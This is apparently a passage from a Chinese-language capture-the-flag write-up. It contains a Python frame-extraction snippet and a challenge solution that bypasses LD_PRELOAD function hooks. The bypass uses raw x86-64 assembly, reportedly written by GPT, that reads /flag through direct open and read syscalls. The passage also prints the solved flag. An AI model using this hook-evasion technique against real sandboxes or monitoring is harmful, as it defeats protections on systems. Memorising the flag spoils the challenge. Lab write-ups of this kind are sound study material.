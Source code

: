 ```python
frame_size = width * height * 3  # Size of each frame in bytes
num_frames = alllength // frame_size  # Number of frames in the byte stream
print(num_frames)

# Extract each frame from the byte stream and save as PNG
for i in range(0,num_frames):
    frame_data = video_data[i*frame_size:(i+1)*frame_size]
    filename = f"{folder_path}frame_{i}.png"
    bytes_to_png_save(frame_data, width, height, filename)
```



## 为什么要打开/flag

``flag{nande_ld_preload_yattano_7ac4512494}``

rust那个大概率没能力写，先写写cpp的

题目是用了LD_PRELOAD的.so库来覆写一些常见的可攻击的危险函数，所以我只要写个cpp可以访问然后编译出来交上去就行了。

先试了一下触发fakeflag

```
stdout (标准输出，前 8192 个字节):
I'll
not
let
you
open
/flag
again!
```

查了一下资料，本来想通过strstr大小写敏感来绕过的，但是flag也是不太行，它大小写敏感。

第二天早上睡醒想直接写汇编读取，让GPT写了一下然后就过了（）

```
.section .data
filename:  .string "/flag"
fd:        .quad 0
buf:       .space 100

.section .text
.globl _start
_start:

    # 使用open系统调用打开文件
    mov $2, %rax          # syscall: sys_open
    mov $filename, %rdi   # const char *filename
    mov $0, %rsi          # int flags (O_RDONLY)
    syscall
    mov %rax, %rdi        # file descriptor
    mov %rax, fd          # store the file descriptor

    # 使用read系统调用读取文件
    mov $0, %rax          # syscall: sys_read
    mov fd, %rdi          # int fd
    mov $buf, %rsi        # char *buf
    mov $100, %rdx        # size_t count
    syscall

    # 检查读取的字节数
    cmp $0, %rax          # if read returned 0, end of file
    je .close_file

```